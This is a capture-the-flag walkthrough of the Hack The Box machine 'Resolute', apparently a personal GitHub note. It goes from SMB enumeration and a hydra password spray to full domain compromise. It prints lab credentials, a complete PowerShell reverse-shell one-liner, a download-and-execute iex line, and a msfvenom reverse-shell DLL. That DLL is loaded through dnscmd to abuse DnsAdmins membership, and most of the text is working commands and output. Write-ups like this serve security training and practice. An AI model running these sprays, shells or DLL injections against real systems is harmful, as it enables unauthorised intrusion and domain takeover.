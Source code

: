 # Resolute
## Enumeration

enum4linux gave us some interesting things:
	- Some users
	- A password for marko : Welcome123!

I tried to connect as marko with the password and it was a fail 

So i decide to try with hydra to try every user with the password.
```bash 
hydra -L names.txt -P password.txt 10.10.10.169 smb
```

[445][smb] host: 10.10.10.169   login: melanie   password: Welcome123!
#user part
so i can connect and enum as melanie with smbclient - smbmap	
```bash
smbmap -u melanie -H 10.10.10.169 -p Welcome123!
smbclient //10.10.10.169/SYSVOL -U melanie -p
```

i used the ruby exploit to connect on port 5985 (WinRm)

reserveshell Oneliner (not usefull here):
```bash
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.20",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

usefull privesc tool 
```bash 
iex (New-Object Net.WebClient).DownloadString(‘http://10.10.14.21:8899/PowerUp.ps1’)
```

after running windows-privesc-check2.exe:
```
Some programs/directories in the path of the user used to perform this audit have weak permissions.

The following directories in the current user's PATH can be manipulated by non-administrator users:

File C:\Users\melanie\AppData\Local\Microsoft\WindowsApps has weak permissions: ALLOW MEGABANK\melanie: FILE_ADD_FILE FILE_ADD_SUBDIRECTORY FILE_WRITE_EA FILE_DELETE_CHILD FILE_WRITE_ATTRIBUTES DELETE WRITE_DAC WRITE_OWNER

or 

The security policy setting 'User Account Control: Behavior of the elevation prompt for administrators in Admin Approval Mode' is set to 'Elevate without prompting' or 'Prompt for consent for non-Windows binaries' (default). This allows malicious programs to elevate without the user agreeing. Metasploit and other free tools can perform such escalation.

The following registry key shows the current policy setting:

    Reg key: HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\ConsentPromptBehaviorAdmin, Value: 5
```

```powershell
Get-ChildItem -filter *history* -Recurse -ErrorAction SilentlyContinue -Force
```

C:\pstranscripts\20191203> gci -H

-H stands for hidden files.... 

ryan Serv3r4Admin4cc123!

#root part
from here if we type :
```powershell
whoami /all
```
we can see :
```
MEGABANK\Contractors                       Group            S-1-5-21-1392959593-3013219662-3596683436-1103 Mandatory group, Enabled by default, Enabled group
MEGABANK\DnsAdmins                         Alias            S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
```

which is the same SID
there is an explanation page for the DnsAdmin exploit :
```url 
	https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2
```
need to create a malicious dll with: 
```	
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.28 LPORT=4444 -f dll > privesc.dll
```
then create a smb share:
```
	sudo smbserver.py lololol /home/floki/HackTheBox/resolute
```
dont forget our listener too :
```
nc -lvnp 4444
```
then grab into the share the malicious dll and use it

```
*Evil-WinRM* PS C:\Users\ryan\Desktop> dnscmd Resolute.megabank.local /config /serverlevelplugindll \\10.10.14.28\LOLOLOL\privesc.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.

*Evil-WinRM* PS C:\Users\ryan\Desktop> sc.exe \\Resolute.megabank.local stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x1
        WAIT_HINT          : 0x7530
*Evil-WinRM* PS C:\Users\ryan\Desktop> sc.exe \\Resolute.megabank.local start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 1560
        FLAGS              :
```
